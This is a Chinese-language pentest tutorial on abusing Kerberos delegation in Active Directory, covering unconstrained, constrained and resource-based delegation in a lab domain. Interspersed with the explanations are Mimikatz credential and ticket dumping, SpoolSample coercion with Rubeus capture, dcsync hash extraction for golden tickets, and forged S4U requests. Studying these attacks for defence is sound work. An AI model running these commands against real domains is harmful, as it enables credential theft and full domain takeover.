# [](#%E5%9F%BA%E4%BA%8E%E5%9F%9F%E5%A7%94%E6%B4%BE%E7%9A%84%E6%94%BB%E5%87%BB)基于域委派的攻击

## [](#1-%E5%9F%9F%E5%A7%94%E6%B4%BE%E7%9B%B8%E5%85%B3%E5%AE%9A%E4%B9%89)1 域委派相关定义

### [](#11-%E5%AE%9A%E4%B9%89)1.1 定义

> Identity delegation is a feature of Active Directo ry Federation Services (AD FS) that allows administrator-specified accounts to impersonate users. The account that impersonates the user is called the dele gate
> 
> This delegation capability is critical for many distributed applications for which there is a series of access control checks that must be made sequentially for each application, database, or service that is in the authorization chain for the originating request
> 
> Many real-world scenarios exist in which a Web application “front end” must retrieve data from a more secure “back end”, such as a Web service that is connected to a Microsoft SQL Server database.

域委派是大型网络中经常部署的应用模式，给多跳认证带来很大的便利，同时也带来很大的安全隐患，利用委派可获取域管理员权限，甚至制作深度隐藏的后门

域委派是指，将域内用户的权限委派给服务账号，使得服务账号能以用户权限开展域内活动。

信息

在域内的可以委派的账户有两种一种是**主机账户**（Net Computer）另一种是用 setspn 手动添加的服务账户（Net User），不管是非约束还是约束的例子是以主机账户举例，因为用主机账户来委派的环境好搭并且便于理解，不过服务账户和主机账户从攻击委派这个视角来看是等价的。

服务账号(`Service Account`)，域内用户的一种类型，服务器运行服务时所用的账号，将服务运行起来并加入域。例如 `MS SQL Server` 在安装时，会在域内自动注册服务账号 `SqlServiceAccount`，这类账号不能用于交互式登录。


一个域内普通用户 jack 通过 Kerberos 协议认证到前台 WEB 服务后，前台运行 WEB 服务的服务账号 `websvc` 模拟(`Impersonate`)用户 jack，以 Kerberos 协议继续认证到后台服务器，从而在后台服务器中获取 jack 用户的访问权限，即域中单跳或者多跳的 Kerberos 认证。

### [](#12-%E6%B5%81%E7%A8%8B)1.2 流程

1.  域内用户 jack 以 Kerberos 方式认证后访问 Web 服务器;
2.  Web 服务以 websvc 服务账号运行，websvc 向 KDC 发起 jack 用户的票据申请;
3.  KDC 检查 websvc 用户的委派属性，如果被设置，则返回 jack 用户的可转发票据 TGT;
4.  websvc 收到 jack 用户 TGT 后，使用该票据向 KDC 申请访问文件服务器的服务票据 ST;
5.  KDC 检查 websvc 的委派属性，如果被设置，且申请的文件服务在允许的列表清单中，则返回一个 jack 用户访问文件服务的授权票据 ST;
6.  websvc 收到的 jack 用户的授权票据 ST 后，可访问文件服务，完成多跳认证。

### [](#13-%E5%A7%94%E6%B4%BE%E7%B1%BB%E5%9E%8B)1.3 委派类型

域内委派主要有 3 种应用方式:

一是`非约束性委派`(Unconstrained Delegation)，服务账号可以获取某用户的 TGT，从而服务账号可使用该 TGT，模拟用户访问任意服务

二是`约束性委派`(Constrained Delegation)，即 Kerberos 的扩展协议 `S4U2Proxy`，服务账号只能获取某用户的 `ST`，从而只能模拟用户访问特定的服务


## [](#2-%E9%9D%9E%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE)2 非约束委派

### [](#21-%E5%8E%9F%E7%90%86)2.1 原理

如果某个服务 A 的服务账号 B 被设置为非约束委派，当用户 C 通过 Kerberos 认证访问服务 A 时，KDC 会检查服务账号 B 的属性，发现是非约束性委派时，KDC 会将用户 C 的 TGT 放在 ST 中，这样 B 在验证 ST 的同时获取了 A 用户的 TGT，从而可以模拟用户 A 访问`任意`服务。


开启委派后，在该用户的 `userAccountControl` 属性会多出一个 flag：`WORKSTATION_TRUSTED_FOR_DELEGATION`



非约束委派的设置需要 `SeEnableDelegation` 特权，该特权通常仅授予域管理员。

### [](#22-%E5%AE%9E%E6%88%98)2.2 实战

#### [](#221-%E9%9D%9E%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE%E7%9A%84%E6%9F%A5%E6%89%BE)2.2.1 非约束委派的查找

##### [](#2211-adfind)2.2.1.1 adfind

**查询非约束委派的主机**：

`AdFind.exe -b "DC=pentest,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName`


**查询非约束委派的用户**：

`AdFind.exe -b "DC=pentest,DC=com" -f "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName`

##### [](#2212-powerview)2.2.1.2 powerview

注：PowerSploit-dev 分支

**查询配置非约束委派的用户**：`Get-NetUser -Unconstrained -Domain pentest.com`

**查询配置非约束委派的主机**：`Get-domaincomputer -Unconstrained -Domain pentest.com`


##### [](#2213-ldapsearch)2.2.1.3 ldapsearch

信息

需要域内任意用户的账号密码

**查询非约束委派的机器：**

`ldapsearch -LLL -x -H ldap://172.16.147.130:389 -D "win7user@pentest.com" -w "123456bY" -b dc=pentest,dc=com "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName`



**查询非约束委派的用户：**

`ldapsearch -LLL -x -H ldap://172.16.147.130:389 -D "win7user@pentest.com" -w "123456" -b dc=pentest,dc=com "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName`

#### [](#222-%E9%9D%9E%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE%E7%9A%84%E5%88%A9%E7%94%A8)2.2.2 非约束委派的利用

##### [](#2221-%E7%AE%A1%E7%90%86%E5%91%98%E6%A8%A1%E6%8B%9F%E8%AE%BF%E9%97%AE)2.2.2.1 管理员模拟访问

信息

实验前建议清除内存中的票据，mimikatz 下：`kerberos::purge`

模拟管理员调用非约束性委派机的 smb 服务：`net use \\win7\c$`

回到非约束委派机，查看票据(**部分截图**)：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>privilege::debug<br>sekualsa::tickets<br>``` |


TGT 被截获，我们用 `sekurlas::tickets /export` 把票据导出来


此时我们访问域控是被拒绝的：


然后 mimikatz 里使用 `kerberos::ptt 票据文件名` 将票据注入内存：


可以成功访问。

如果想执行命令，可以使用 `WinRM` 服务来远程连接域控服务器：

`Enter-PSSession -ComputerName DC`


##### [](#2222-spooler-printer-bug)2.2.2.2 Spooler Printer Bug

在实战中，只是单纯的非约束委派话需要管理员主动连接比较鸡肋。因此可以利用非约束委派 + Spooler 打印机服务可以强制指定的主机进行连接。

利用原理：利用 Windows 打印系统远程协议 `(MS-RPRN)` 中的一种旧的但是默认启用的方法，在该方法中，域用户可以使用 MS-RPRN `RpcRemoteFindFirstPrinterChangeNotification(Ex)` 方法强制任何运行了 `Spooler` 服务的计算机以通过 `Kerberos` 或 `NTLM` 对攻击者选择的目标进行身份验证。


POC：`https://github.com/leechristensen/SpoolSample`

向 DC 的 `Spooler` 服务发送请求，强制其访问 win7 进行身份验证：`SpoolSample.exe DC win7`

可以用 `Rubeus` 来监听 `Event ID` 为 `4624` 事件，这样可以第一时间截取到域控的，每隔一秒监听一次来自 DC 的登陆（需要本地管理员权限）TGT：`Rubeus.exe monitor /interval:1 /filteruser:DC$`

**注**：Rubeus.exe 捕获到的 TGT 是 base64 编码的，但是我们不需要解码，`Rubeus` 可以直接将 base64 编码的票据直接注入到内存中：`Rubeus.exe ptt /ticket:base64`

得到 TGT 之后，利用 PTT 将票据注入到当前会话后，可以用 `dcsync` 导出域控中所有用户的 hash，然后用 `krbtgt` 用户的 hash 生成黄金票据。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>kerberos::ptt xxxx.kirbi<br><br>lsadump::dcsync /domain:test.local /all /csv<br>``` |

## [](#3-%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE)3 约束委派

### [](#31-%E5%8E%9F%E7%90%86)3.1 原理

由于非约束委派的不安全性，微软在 `windows server 2003` 中引入了约束委派，对 Kerberos 协议进行了拓展，引入了 `S4U`，其中 `S4U` 支持两个子协议：`Service for User to Self (S4U2Self)` 和 `Service for User to Proxy (S4U2proxy)`，这两个扩展都允许服务代表用户从 KDC 请求票证。`S4U2self` 可以代表自身请求针对其自身的 Kerberos 服务票据(ST)；`S4U2proxy` 可以以用户的名义请求其它服务的 ST，约束委派就是限制了 `S4U2proxy` 扩展的范围。

`S4U2Self` 和 `S4U2proxy` 的请求过程（图来自微软手册）：

其中步骤 1-4 代表 `S4U2Self` 请求的过程，步骤 5-10 代表 `S4U2proxy` 的请求过程


1.  用户向 service1 发出请求。用户已通过身份验证，但 service1 没有用户的授权数据。通常，这是由于身份验证是通过 Kerberos 以外的其他方式验证的。
    
2.  通过 S4U2self 扩展以用户的名义向 KDC 请求用于访问 service1 的 ST1。
    
3.  KDC 返回给 Service1 一个用于用户验证 Service1 的 ST1，该 ST1 可能包含用户的授权数据。
    
4.  service1 可以使用 ST 中的授权数据来满足用户的请求，然后响应用户。 注：尽管 S4U2self 向 service1 提供有关用户的信息，但 S4U2self 不允许 service1 代表用户发出其他服务的请求，这时候就轮到 S4U2proxy 发挥作用了
    
5.  用户向 service1 发出请求，service1 需要以用户身份访问 service2 上的资源。
    
6.  service1 以用户的名义向 KDC 请求用户访问 service2 的 ST2
    
7.  如果请求中包含 PAC，则 KDC 通过检查 PAC 的签名数据来验证 PAC ，如果 PAC 有效或不存在，则 KDC 返回 ST2 给 service1，但存储在 ST2 的 cname 和 crealm 字段中的客户端身份是用户的身份，而不是 service1 的身份。
    
8.  service1 使用 ST2 以用户的名义向 service2 发送请求，并判定用户已由 KDC 进行身份验证。
    
9.  service2 响应步骤 8 的请求。
    
10.  service1 响应用户对步骤 5 中的请求。
    

当被设置为`约束性委派`时，其 `userAccountControl` 属性包含 `TRUSTED_TO_AUTH_FOR_DELEGATION(T2A4D)`，且 `msDS-AllowedToDelegateTo` 属性会被设置为哪些协议





由此可以看出，约束委派不需要其它用户主动请求可以模拟用户。当拿下一个配置约束委派的用户，就可以拿下配置对应委派主机的权限。

### [](#32-%E5%AE%9E%E6%88%98)3.2 实战

#### [](#321-%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE%E7%9A%84%E6%9F%A5%E6%89%BE)3.2.1 约束委派的查找

##### [](#3211-adfind)3.2.1.1 adfind

**查询约束委派的主机**：

`AdFind.exe -b "DC=pentest,DC=com" -f "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto`


**查询约束委派的用户**：

`AdFind.exe -b "DC=pentest,DC=com" -f "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto`

##### [](#3212-powerview)3.2.1.2 powerview

**查询约束委派的主机**：

`Get-DomainComputer -TrustedToAuth -Domain test.com -Properties distinguishedname,useraccountcontrol,msds-allowedtodelegateto`

**查询约束委派的用户**：

`Get-DomainUser –TrustedToAuth -domain qiyou.com -Properties distinguishedname,useraccountcontrol,msds-allowedtodelegateto|fl`

##### [](#3213-ldapsearch)3.2.1.3 ldapsearch

**查询约束委派的机器：**

`ldapsearch -LLL -x -H ldap://IP:389 -D "user@pentest.com" -w "123456" -b dc=pentest,dc=com "(&(samAccountType=805306369)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto`


**查询约束委派的用户：**

`ldapsearch -LLL -x -H ldap://IP:389 -D "user@pentest.com" -w "123456" -b dc=pentest,dc=com "(&(samAccountType=805306368)(msds-allowedtodelegateto=*))" cn distinguishedName msds-allowedtodelegateto`

#### [](#322-%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE%E7%9A%84%E5%88%A9%E7%94%A8)3.2.2 约束委派的利用

##### [](#3221-%E5%B8%B8%E8%A7%81%E6%83%85%E5%86%B5)3.2.2.1 常见情况

已知在约束委派的情况下，服务用户只能获取某个用户或者主机的服务 ST，只能用模拟用户访问特定的服务，是无法获取用户的 TGT 的，如果能够获得到开启了约束委派的服务的用户的明文密码或者 hash 就可以伪造 S4U 的请求，进而伪造服务用户以任意账户的权限访问服务的 ST。

**先抓出主机账户的 NTLM Hash 值：**

`mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords full" exit`



**申请 TGT：**

信息

如果拥有服务用户登录的主机权限，可以用 `mimikatz` 直接从内存中把服务用户的 TGT dump 出来，可以跳过申请 TGT 这个步骤，直接用 mimikatz 导出 TGT：

`mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" exit`

NTLM Hash 和密码都可以：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>tgt::ask /user:win7$ /domain:pentest.com /ntlm:<抓取到的哈希><br>tgt::ask /user:win7$ /domain:pentest.com /password:12345<br>``` |


通过 TGT，**请求**一张以 `Administrator` 用户身份访问对应服务 2（**DC 的 cifs 服务**）的 ST：`tgs::s4u /tgt:TGT_win7$@PENTEST.COM_krbtgt~pentest.com@PENTEST.COM.kirbi /user:administrator@pentest.com /service:cifs/dc.pentest.com`


`S4U2Self` 获取到的 ST1 以及 `S4U2Proxy` 获取到的 DC CIFS 服务的 ST2 会保存在当前目录下：



用 mimikatz 将 ST2 导入当前会话即可：

`kerberos::ptt TGS_administrator@pentest.com@PENTEST.COM_cifs~dc.pentest.com@PENTEST.COM.kirbi`


##### [](#3222-spn-%E8%AE%BE%E7%BD%AE%E5%BD%B1%E5%93%8D%E5%AF%B9%E5%BA%94%E7%A5%A8%E6%8D%AE)3.2.2.2 SPN 设置影响对应票据

当委派的权限不是 cifs 时，如 time 权限，如何进一步测试？



通过在 hex 模式下修改 ST2，将 time 修改为 cifs，即可通过 smbexec 执行命令。

## [](#4-%E5%9F%BA%E4%BA%8E%E8%B5%84%E6%BA%90%E7%9A%84%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE)4 基于资源的约束委派

### [](#41-%E5%8E%9F%E7%90%86)4.1 原理

上文的约束委派中提到，如果配置受约束的委派，必须拥有 SeEnableDelegation 特权，该特权是敏感的，通常仅授予域管理员。为了使用户/资源更加独立，Windows Server 2012 中引入了基于资源的约束委派。基于资源的约束委派(RBCD)配置在后端目标服务或资源上(例如后端的 CIFS 服务)，而不是在前端的服务或资源上(例如前端的 WEB 等)。基于资源的约束委派允许资源配置受信任的帐户委派给他们。

基于资源的约束委派和传统的约束委派非常相似，但是作用的方向实际上是相反的。



**传统的约束委派**：在 ServiceA 的 `msDS-AllowedToDelegateTo` 属性中配置了对 ServiceB 的信任关系，定义了到 ServiceB 的传出委派信任。传统的约束委派 S4U2Self 返回的票据一定是可转发的，如果不可转发那么 S4U2Proxy 将失败；但是基于资源的约束委派不同，就算 S4U2Self 返回的票据不可转发（可不可以转发由 TrustedToAuthenticationForDelegation 决定），S4U2Proxy 也是可以成功，并且 S4U2Proxy 返回的票据总是可转发。

**资源约束委派**：在 ServiceB 的 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性中配置了对 ServiceA 的信任关系，定义了从 ServiceA 的传入信任关系。资源本身可以为自己配置资源委派信任关系，资源本身决定可以信任谁，该信任谁。

**利用条件**：简单来说就是你获得的用户对该主机的属性具有写权限，那么这个用户就可以对该主机进行攻击。

相信此时大家应该明白了\*\*基于资源的约束委派(RBCD)\*\*的认证流程。怎么来设置基于资源的约束委派呢？其中 msDS-AllowedToActOnBehalfOfOtherIdentity 是关键。

首先我们来思考一个问题：\*\*“谁有权限能修改 msDS-AllowedToActOnBehalfOfOtherIdentity 属性的值呢?” \*\*

分析环境如下：

| 角色  | 用户  | 系统  |
| --- | --- | --- |
| 域内普通机器 | Redteam\\web3user | Win 2012 |
| 域控机器 | Redteam\\administrator | Win 2012 |

查询 web3 的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性发现默认是不存在的。


由此得知所有加入域的机器默认不存在这个属性，需要手动添加才行。

那么谁有权限能修改 msDS-AllowedToActOnBehalfOfOtherIdentity 属性的值的问题就变成了谁有权限添加 msDS-AllowedToActOnBehalfOfOtherIdentity 属性。

经过查询，以下两个用户具有该权限：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```fallback<br>REDTEAM\web3user -> WriteProperty<br>NT AUTHORITY\SELF -> WriteProperty<br>``` |

为什么 REDTEAM\\web3user 拥有 WriteProperty 权限呢？当 web3 计算机通过域用户 web3user 加入域时，域内会创建名为 `web3.redteam.com` 的计算机对象，而创建者就是 `web3user`，所以该域用户具有对 `web3.redteam.com` 的 WriteProperty 权限。

### [](#42-%E5%AE%9E%E6%88%98)4.2 实战

攻击流程：

假设开启基于资源的约束性委派机器为 A

1.  首先要有一个对当前计算机有写权限的账户，才能对 A 设置可以被委派访问的服务账户。
2.  利用当前账户创建一个机器账户，并配置好机器账户到 A 的基于资源的约束性委派
3.  因为机器账户是我们创建的，我们知道它的密码账户，可以让它利用 S4U2SELF 协议获得一个不可转发 ST。然后用这个不可转发 ST 通过 S4U2PROXY，在基于资源的约束性委派基础上获得有效的访问 A cifs 服务的 ST2。
4.  用 ST2 访问 A 的 CIFS 服务，获得权限。

#### [](#421-%E7%8E%AF%E5%A2%83%E6%A8%A1%E6%8B%9F)4.2.1 环境模拟

首先要查找域中的某个域用户对目标机器的属性有写权限，在此处手动添加一个用户，以模拟该权限：

-   直接在域控上找到某主机，然后进入在属性里进入安全选项卡，添加某用户，然后给这个用户分配权限即可。



#### [](#422-%E5%AF%BB%E6%89%BE%E5%AF%B9%E7%9B%AE%E6%A0%87%E4%B8%BB%E6%9C%BA%E8%B4%A6%E6%88%B7%E6%9C%89%E5%AE%8C%E5%85%A8%E6%8E%A7%E5%88%B6%E6%9D%83%E9%99%90%E7%9A%84%E7%94%A8%E6%88%B7)4.2.2 寻找对目标主机账户有完全控制权限的用户

-   利用 powerview 查看当前用户 SID，并查看当前用户对某台主机是否有写权限

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```powershell<br># 查看 SID<br>Get-DomainUser -Identity [userName] -Properties objectsid<br><br># 查看写权限<br>Get-DomainObjectAcl -Identity [computerName] \| ?{$_.SecurityIdentifier -match "SID"}<br>``` |



如果有 GenericAll（完全控制权），GenericWrite、WriteProperty、WriteDacl 这些属性，就说明该用户能修改计算机的账户属性。

#### [](#423-%E5%88%9B%E5%BB%BA%E6%9C%BA%E5%99%A8%E8%B4%A6%E5%8F%B7)4.2.3 创建机器账号

现在还需要的是一个具有 SPN 的账户，因为 `S4U2Self` 只适用于具有 SPN 的账户，恰好的是在域中有一个属性 `MachineAccountQuota`，这个值表示的是允许用户在域中创建的计算机帐户数，默认为 10，这意味着我们如果拥有一个普通的域用户那么我们就可以利用这个用户最多可以创建十个新的计算机帐户，而计算机账户默认是注册 `RestrictedKrbHost/domain` 和 `HOST/domain` 这两个 SPN 的，所以这里刚好符合我们的意图。

可以使用 `Powermad` 中的 `New-MachineAccount` 来创建一个用户名为 `evilsystem`，密码为 `evil` 的计算机账户

[https://github.com/Kevin-Robertson/Powermad](https://github.com/Kevin-Robertson/Powermad)

